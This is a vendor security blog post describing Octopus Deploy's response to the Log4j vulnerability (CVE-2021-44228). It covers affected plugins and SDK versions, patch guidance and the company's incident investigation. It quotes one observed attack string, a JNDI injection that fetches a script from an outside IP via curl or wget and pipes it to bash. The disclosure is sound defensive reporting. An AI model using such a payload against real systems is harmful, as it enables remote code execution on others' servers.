 ```yaml
---
title: Octopus Deploy's response to Log4j
description: Learn how Octopus Deploy responded to the Log4j vulnerability (CVE-2021-44228).
author: kyle.jackson@octopus.com
visibility: public
published: 2021-12-14-1400
metaImage: blogimage-security.png
bannerImage: blogimage-security.png
bannerImageAlt: Octopus on shield to represent security
isFeatured: false
tags: 
  - Product
  - Trust and Security
---
```


On Thursday, December 9, 2021, Octopus Deploy was made aware of a vulnerability in the Log4j logging utility ([CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228)). We immediately enacted our Security Incident Response Plan to investigate our use of this utility and its impact on our products and infrastructure.

Fortunately, Octopus Cloud, Octopus Server, and Octopus Tentacle are not affected. However, there are some related products that are impacted and require updates.

In this post, we share the results of our investigation and our recommended next steps for customers.

## JetBrains TeamCity plugin for Octopus Deploy

Version 6.1.7 of the JetBrains TeamCity plugin uses version 2.15.0 of Log4j. However, all versions of the plugin before 6.1.7 are using version 2.14.1 of Log4j and could be vulnerable to remote code execution.

### What you need to do

Version 6.1.7 of the Octopus Deploy plugin for TeamCity is available from the marketplace. If you're a TeamCity user, you should be notified of this update through the Web UI and we strongly encourage you to accept the update.

Follow our [security advisory](https://advisories.octopus.com/adv/2021-12---Octopus-Deploy-TeamCity-Plugin-log4j2-dependency.2306410241.html) for updates.

## Octopus Java SDK

Version 0.0.3 of the Java SDK uses version 2.15.0 of Log4j. However, all versions of the Java SDK before 0.0.3 are using version 2.14.1 of Log4j and could be vulnerable to remote code execution.

### What you need to do

We recommend that customers using the Octopus Java SDK update their SDK version to 0.0.3.

Follow our [security advisory](https://advisories.octopus.com/adv/2021-13---Octopus-Java-Client-SDK-log4j2-dependency.2306475696.html) for updates.

## Octopus Cloud, Octopus Server, and Octopus Tentacle

Octopus Cloud, Octopus Server, and Octopus Tentacle are not affected by this vulnerability. They’re built with the .NET framework and don’t use any ported versions of Log4j.

## Breakdown of all products

| Product | Vulnerable Log4j version used | Vulnerable product versions | Patched product versions |
| ------- | ----------------------------- | --------------------------- | ------------------------ |
| Azure Devops & TFS Extension | No | N/A | N/A |
| Bamboo Add-on | No | N/A | N/A |
| Java SDK | Yes | <= 0.0.2 | 0.0.3 |
| Jenkins Plugin | No | N/A | N/A |
| Octopus CLI | No | N/A | N/A |
| Octopus Cloud | No | N/A | N/A |
| Octopus Server | No | N/A | N/A |
| Octopus Tentacle | No | N/A | N/A |
| TeamCity Plugin | Yes | <= 6.1.5 | 6.1.7 |

## Was Octopus Deploy compromised? 

Our internal infrastructure runs products that were using a vulnerable version of Log4j. However, we invested a significant amount of time after the initial announcement on Thursday, December 9, and we believe Octopus Deploy was not compromised.

While our engineering teams worked to update our affected products, our Security Operations team analyzed our systems to determine if they'd been exploited. The following sections will go further into our approach.

### Reviewing our internal infrastructure

The vast majority of our internal infrastructure is maintained as Infrastructure as Code (IaC). This allowed us to easily identify potentially vulnerable systems and push updates to those systems with minimal intervention.

When we couldn't determine if a system was vulnerable or not, we used known proof of concepts (PoC) to test if a system was vulnerable. This meant we could better mitigate the particular system.

### Reviewing network traffic

We maintain a lot of network data across our infrastructure, which allows us to identify suspicious network behavior that can result in exploitation of our infrastructure. While reviewing the network data, we identified the following:

1. Suspicious activity - We identified suspicious inbound network traffic to our systems including source IPs. However, we didn't identify any malicious outbound traffic which was reassuring.
1. Identifying targeted systems - While analyzing the network data we identified specific systems that were being aggressively targeted. We put extra controls and mitigations around those systems to reduce the risk of exploitation.

Here is a user agent string that was sent to one of our servers (decoded and redacted):

```
${jndi:ldap://45.155.205.233:12344/Basic/Command/Base64/(curl -s 45.155.205.233:5874/XXX.XXX.XXX.XXX:443||wget -q -O- 45.155.205.233:5874/XXX.XXX.XXX.XXX:443)|bash}
```
### Reviewing endpoints

Using the information from the network data, we reviewed specific endpoints that we knew had been aggressively targeted and confirmed they hadn't been compromised.

By using an EDR solution on our endpoints, we also closely monitored the endpoints for signs of compromise or potential exploitation. This data (along with other data sets) feeds into our SIEM (Security Incident and Event Management) system so we're alerted in near real-time and can respond accordingly.

Using all these approaches to investigate our infrastructure, we found no evidence of a compromise.

## Conclusion

We're continuing to track updates relating to this vulnerability. We'll provide further updates if there's any risk to our customers or products. 

If you have any questions, please reach out via [support@octopus.com](mailto:support@octopus.com).